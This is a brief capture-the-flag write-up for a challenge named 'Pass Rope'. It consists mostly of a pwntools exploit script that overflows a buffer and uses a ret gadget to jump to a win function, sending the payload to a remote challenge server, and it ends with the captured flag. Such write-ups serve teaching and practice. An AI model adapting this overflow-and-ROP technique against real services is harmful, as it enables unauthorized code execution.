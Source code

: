 # Pass Rope

Basic ret2win without security

![checksec](src/checksec.png)

```py
from pwn import *


elf = ELF("./pass_rope")
rop = ROP(elf)


r = remote("175.45.187.254", 5003)
# r = process("./pass_rope")
r.recvuntil("kak?")


payload = b'a' * 144
payload += p64(rop.find_gadget(["ret"])[0])
payload += p64(elf.sym["dtlo"])
r.sendline(payload)
r.interactive()
```

```
Hology6{t4L1_NyA_Gk_g3mp4nG_PÙtu5}
```